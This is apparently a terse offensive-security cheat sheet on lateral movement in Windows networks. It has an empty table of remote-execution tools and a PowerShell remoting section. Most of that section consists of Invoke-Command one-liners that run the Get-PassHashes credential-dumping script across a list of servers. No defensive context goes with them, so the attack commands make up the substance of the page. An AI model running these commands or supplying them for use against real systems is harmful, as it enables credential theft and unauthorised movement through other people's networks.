

# 🥰 Tools to Lateral Movement

| Tool            | Description | Noise |
| --------------- | ----------- | ----- |
| Enter-PSSession |             |       |
| Invoke-Command  |             |       |
| psexec.exe      |             |       |
| wmis            |             |       |
| wmic            |             |       |
| winrs           |             |       |
| RDP             |             |       |

<figure><figcaption></figcaption></figure>

### Powershell Remoting


```powershell
Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
```



```
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```



```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```



```powershell
Invoke-Command -Filepath C:\path\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```

